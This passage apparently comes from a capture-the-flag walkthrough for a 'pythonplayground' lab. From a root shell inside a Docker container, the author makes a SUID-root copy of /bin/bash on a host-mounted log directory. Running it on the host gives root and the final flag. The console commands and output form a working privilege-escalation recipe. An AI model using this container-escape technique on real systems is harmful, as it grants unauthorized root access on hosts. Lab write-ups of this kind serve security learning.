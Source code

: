 ### Checking the changes from host device
```console
connor@pythonplayground:~$ cd /var/log
connor@pythonplayground:/var/log$ ls -la test-dir/
total 8
drwxrwxrwx  2 root root   4096 Nov 11 02:25 .
drwxrwxr-x 10 root syslog 4096 Nov 11 02:25 ..
```
And it exists. Nice!!

### Copying the /bin/bash binary inside newly created dir
```console
connor@pythonplayground:/var/log$ cd test-dir/
connor@pythonplayground:/var/log/test-dir$ cp /bin/bash bash
connor@pythonplayground:/var/log/test-dir$ ls -la
total 1096
drwxrwxrwx  2 root   root      4096 Nov 11 02:27 .
drwxrwxr-x 10 root   syslog    4096 Nov 11 02:25 ..
-rwxr-xr-x  1 connor connor 1113504 Nov 11 02:27 bash
```

### Changing the permissions from docker container
```console
root@playgroundweb:/mnt/log/test-dir# chown root:root bash
root@playgroundweb:/mnt/log/test-dir# chmod 4755 bash 
```
### Getting a root shell on the host
```console
connor@pythonplayground:/var/log/test-dir$ ls -la
total 1096
drwxrwxrwx  2 root root      4096 Nov 11 02:27 .
drwxrwxr-x 10 root syslog    4096 Nov 11 02:25 ..
-rwsr-xr-x  1 root root   1113504 Nov 11 02:27 bash
connor@pythonplayground:/var/log/test-dir$ ./bash -p
bash-4.4# id
uid=1000(connor) gid=1000(connor) euid=0(root) groups=1000(connor)
bash-4.4# 
```

## Reading the final flag
```console
bash-4.4# cd /root
bash-4.4# ls
flag3.txt
bash-4.4# cat flag3.txt 
THM{be3adc69*************925ad1}
```


<script data-name="BMC-Widget" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="reddevil2020" data-description="Support me on Buy me a coffee!" data-message="Thank you for visiting. You can now buy me a coffee!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>
